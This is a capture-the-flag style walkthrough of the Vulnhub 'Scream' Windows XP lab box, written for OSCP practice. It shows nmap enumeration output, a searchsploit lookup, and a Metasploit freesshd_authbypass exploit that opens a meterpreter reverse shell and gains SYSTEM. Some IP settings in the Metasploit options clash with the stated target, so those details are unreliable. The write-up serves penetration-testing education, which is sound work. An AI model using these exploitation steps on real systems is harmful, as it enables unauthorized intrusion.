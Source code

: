 ```yaml
---
published: true
---
```

Vulnhub virtual machine; OSCP prep box, a windows box with a very well known vulnerability that leads to system level access. Setup of box takes longer then actual exploitation (metasploit used).

----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Creating the workspace:

Estimated setup time: ~1hr

Requirements: 
Windows XP with key - I wish you luck on your adventures finding this information.
.NET Framework Version 4 (or higher) - [[Link]](https://www.microsoft.com/en-us/download/details.aspx?id=17851)
VulnInjector


![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551917335740_image.png)


booting: scream.iso

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551917674648_image.png)


Installing .NET Framework:


Discovering VM on network

    netdiscover -r 10.10.10.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551920898839_image.png)


Target: 10.10.10.201


# Enumeration

Nmap scan:

    nmap -sV -sC -oA nmap/scream 10.10.10.201

output:

    Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 10:25 GMT
    mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
    Nmap scan report for 10.10.10.201
    Host is up (0.00095s latency).
    Not shown: 996 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | drwxr-xr-x 1 ftp ftp              0 Mar 06 17:00 bin
    | drwxr-xr-x 1 ftp ftp              0 Mar 06 17:04 log
    |_drwxr-xr-x 1 ftp ftp              0 Mar 06 17:00 root
    |_ftp-bounce: bounce working!
    | ftp-syst:
    |_  SYST: UNIX emulated by FileZilla
    22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
    | ssh-hostkey:
    |   1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
    |_  1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
    23/tcp open  telnet
    | fingerprint-strings:
    |   GenericLines, NCP, RPCCheck, tn3270:
    |     Scream Telnet Service
    |     login:
    |   GetRequest:
    |     HTTP/1.0
    |     Scream Telnet Service
    |     login:
    |   Help:
    |     HELP
    |     Scream Telnet Service
    |     login:
    |   SIPOptions:
    |     OPTIONS sip:nm SIP/2.0
    |     Via: SIP/2.0/TCP nm;branch=foo
    |     From: <sip:nm@nm>;tag=root
    |     <sip:nm2@nm2>
    |     Call-ID: 50000
    |     CSeq: 42 OPTIONS
    |     Max-Forwards: 70
    |     Content-Length: 0
    |     Contact: <sip:nm@nm>
    |     Accept: application/sdp
    |     Scream Telnet Service
    |_    login:
    80/tcp open  http    Tinyweb httpd 1.93
    |_http-server-header: TinyWeb/1.93
    |_http-title: The Scream - Edvard Munch
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port23-TCP:V=7.70%I=7%D=3/4%Time=5C7CFD3F%P=x86_64-pc-linux-gnu%r(NULL,
    SF:12,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1
    SF:f")%r(GenericLines,34,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff
    SF:\xfd\x18\xff\xfd\x1f\r\n\r\nScream\x20Telnet\x20Service\r\nlogin:\x20")
    SF:%r(tn3270,3C,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\
    SF:xff\xfd\x1f\xff\xfc\x18\xff\xfe\x19\xff\xfc\x19\xff\xfb\0Scream\x20Teln
    SF:et\x20Service\r\nlogin:\x20")%r(GetRequest,42,"\xff\xfb\x01\xff\xfe\"\x
    SF:ff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1fGET\x20/\x20HTTP/1\.0\r\n\r
    SF:\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(RPCCheck,5C,"\xff\xfb\x
    SF:01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f\x80\0\0\(r\x
    SF:fe\x1d\x13\0\0\0\0\0\0\0\x02\0\x01\x86\xa0\0\x01\x97\|\0\0\0\0\0\0\0\0\
    SF:0\0\0\0\0\0\0\0\0\0\0\0Scream\x20Telnet\x20Service\r\nlogin:\x20")%r(He
    SF:lp,36,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd
    SF:\x1fHELP\r\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(SIPOptions,10
    SF:F,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f
    SF:OPTIONS\x20sip:nm\x20SIP/2\.0\r\nVia:\x20SIP/2\.0/TCP\x20nm;branch=foo\
    SF:r\nFrom:\x20<sip:nm@nm>;tag=root\r\nTo:\x20<sip:nm2@nm2>\r\nCall-ID:\x2
    SF:050000\r\nCSeq:\x2042\x20OPTIONS\r\nMax-Forwards:\x2070\r\nContent-Leng
    SF:th:\x200\r\nContact:\x20<sip:nm@nm>\r\nAccept:\x20application/sdp\r\n\r
    SF:\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(NCP,31,"\xff\xfb\x01\xf
    SF:f\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f\x13Scream\x20Teln
    SF:et\x20Service\r\nlogin:\x20");
    MAC Address: 08:00:27:F2:AD:C7 (Oracle VirtualBox virtual NIC)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 55.15 seconds
    

This is an older box lets see what the front door has to offer - SSH

    searchpsloit sshd 2.1.3

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551921309235_image.png)


download locally with `-m`

inspect code:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551921365635_image.png)


Metasploit

    msf exploit(freesshd_authbypass) > show options
     
    Module options (exploit/windows/ssh/freesshd_authbypass):
     
       Name       Current Setting                                                   Required  Description
       ----       ---------------                                                   --------  -----------
       RHOST      192.168.1.22                                                      yes       The target address
       RPORT      22                                                                yes       The target port
       USERNAME                                                                     no        A specific username to try
       USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line
     
     
    Payload options (windows/meterpreter/reverse_tcp):
     
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
       LHOST     10.10.10.201     yes       The listen address
       LPORT     9999             yes       The listen port
     
     
    Exploit target:
     
       Id  Name
       --  ----
       0   Freesshd <= 1.2.6 / Windows (Universal)
     
     
    msf exploit(freesshd_authbypass) > exploit
     
    [*] Started reverse handler on 10.10.10.201:9999 
    [*] Trying username '4Dgifts'
    [*] Trying username 'EZsetup'
    [*] Trying username 'OutOfBox'
    [*] Trying username 'ROOT'
    [*] Trying username 'adm'
    [*] Trying username 'admin'
    [*] Uploading payload, this may take several minutes...
    [*] Sending stage (769536 bytes) to 10.10.10.201

Exploit leads to direct `NT/SYSTEM`

Bring me the root!

-exec
